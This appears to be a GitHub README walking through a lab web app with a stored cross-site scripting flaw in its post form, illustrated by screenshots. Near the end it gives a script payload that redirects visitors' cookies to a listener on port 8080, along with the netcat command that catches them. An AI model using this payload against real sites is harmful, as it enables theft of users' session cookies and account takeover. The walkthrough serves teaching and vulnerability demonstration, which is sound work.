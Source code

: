 Run the website and see the working of the website.

When we enter the website it shows login page click on register link to register your account.

<img width="628" alt="image" src="https://github.com/user-attachments/assets/52baaa69-6c6f-4a27-accd-2fe483b9e0c9" />

After registering your account it will redirect you to the login page. Login to use the applications.

<img width="632" alt="image" src="https://github.com/user-attachments/assets/b0f07ad8-70a4-458a-aa2c-8dc4cad109d1" />

After login you'll see two options add a new post and useraccount.

<img width="638" alt="image" src="https://github.com/user-attachments/assets/35486c09-fc8c-42b0-aa1c-a1b517000706" />

 When we visit the useraccount it will show the dashboard of the user.

 After this click on add a new post.

 Enter the title, content and author and click on submit.

 <img width="629" alt="image" src="https://github.com/user-attachments/assets/aa2b831d-9dc6-4812-9f1b-b498e24c9f5d" />

After clicking on submit it will be shown in the index page.

<img width="627" alt="image" src="https://github.com/user-attachments/assets/72eddb00-c342-4f19-bfa2-79cfce4085ff" />

Now click if the title, content or author can pass the html or not.

<img width="626" alt="image" src="https://github.com/user-attachments/assets/7394fc61-6d25-4ff5-9aad-4c0a5409d170" />

When we click on submit the page will be redirected to the index page observe the post you submitted the content passes the html to the database and is shown in the index page.

<img width="634" alt="image" src="https://github.com/user-attachments/assets/83dca75f-5953-45e2-8f95-9ba32610ebf8" />

Now check if it allows us to inject a script or not.

<img width="629" alt="image" src="https://github.com/user-attachments/assets/0fa81138-4400-45dd-b4c5-82c1931a0c67" />

It successfully injected the script into the html. It means this website has stored xss vulnerability.

<img width="624" alt="image" src="https://github.com/user-attachments/assets/ddb3e1ff-aaf1-44fc-824e-630938db67d5" />

Now to steal the admin cookie inject the following script to the content field of the form

```
<script>document.location="http:127.0.0.1:8080"+document.cookie;</script>
```

This allows the attacker to steal the cookies of the users whoever visits the website after injecting the above script in the content field.

To get the cookies of the users who visits the website we use the command.

```
nc -lnvp 8080
```

<img width="853" alt="image" src="https://github.com/user-attachments/assets/e2bb3c2e-8217-428c-b513-627d47791ceb" />

In this way the attacker can steal the cookies of the users of an application using xss vulnerability.

